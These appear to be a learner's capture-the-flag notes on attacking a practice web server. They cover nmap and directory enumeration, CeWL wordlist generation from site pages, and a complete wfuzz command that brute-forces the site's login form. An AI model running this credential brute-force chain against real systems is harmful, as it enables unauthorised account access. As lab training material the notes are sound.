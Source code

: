 nmap 10.10.232.237 
open port 22 , 80
/etc/hosts ---> antarcticrafts.com

searchsploint apache 2.4.41 resolved into nothing
gobuster resolved into nothing .  ggobuster dns -d AntarctiCrafts.com -w /usr/share/spiderfoot/spiderfoot/dicts/subdomains-10000.txt

dirsearch -> login.php  and more 
//CeWl is the tool that we gonna use to generate a wordlist to brute force the login page .
syntax : 	
	cewl <IP>
	Specify spidering depth: The -d option allows you to set how deep CeWL should spider. For example, to spider two links deep: cewl http://10.10.232.237 -d 2 -w output1.txt
	
	Set minimum and maximum word length: Use the -m and -x options respectively. For instance, to get words between 5 and 10 characters: cewl http://10.10.232.237 -m 5 -x 10 -w output2.txt
	Handle authentication: If the target site is behind a login, you can use the -a flag for form-based authentication.
	Custom extensions: The --with-numbers option will append numbers to words, and using --extension allows you to append custom extensions to each word, making it useful for directory or file brute-forcing.
	Follow external links: By default, CeWL doesn't spider external sites, but using the --offsite option allows you to do so.
	
---------------------------------------------------------------------------------
					GENERATING USERNAME/PASSWORD LIST	
└─$ cewl -d 0 -m 5 http://antarcticrafts.com/team.php -w username.txt --lowercase
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
                                                                                                                                                    
                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/hackthebox/Adventofcyber/day4]
└─$ cewl -d 2 -m 5 http://antarcticrafts.com/ --with-number -w password.txt
---------------------------------------------------------------------------------
					BRUTE FORCE LOGIN PAGE :
──(kali㉿kali)-[~/Desktop/hackthebox/Adventofcyber/day4]
└─$ wfuzz -c -z file,username.txt -z file,password.txt --hs "Please enter the correct credentials" -u http://antarcticrafts.com/login.php -d "username=FUZZ&password=FUZ2Z"


